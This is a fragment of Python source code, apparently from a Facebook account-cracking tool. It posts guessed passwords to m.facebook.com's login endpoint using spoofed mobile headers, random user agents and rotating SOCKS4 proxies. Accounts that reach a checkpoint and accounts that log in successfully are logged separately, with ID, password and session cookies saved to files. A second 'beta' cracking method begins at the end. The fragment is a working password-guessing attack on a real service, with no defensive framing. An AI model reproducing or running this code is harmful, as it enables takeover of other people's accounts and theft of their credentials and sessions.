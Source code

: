 			heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login.php?skip_api_login=1&api_key=124024574287414&kid_directed_site=0&app_id=124024574287414&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fdialog%2Foauth%3Fclient_id%3D124024574287414%26redirect_uri%3Dhttps%253A%252F%252Fwww.instagram.com%252Faccounts%252Fsignup%252F%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%26scope%3Demail%26response_type%3Dcode%252Cgranted_scopes%26locale%3Did_ID%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Db97ff6fb-29af-412a-bb00-83c94a1003f1%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.instagram.com%2Faccounts%2Fsignup%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r├── {K}{idf}|{pw}\n└──{ua}{N}')     
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r├── {H}{idf}|{pw}\n└──{kuki}\n└──{m}{ua}{N}')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_apk(session,coki)
				break
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#---------------------[ METHODE-BETA ]---------------------#
def crackbeta(idf,pwv):
	global loop,ok,cp
	bo = random.choice([m,k,h,b,u,x])
	sys.stdout.write(f"\rCracak {P}[{b}{loop}{P}/{u}{len(id)}{P}]—{P}[{H}{ok}{P}]—{P}[{k}{cp}{x}]—[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})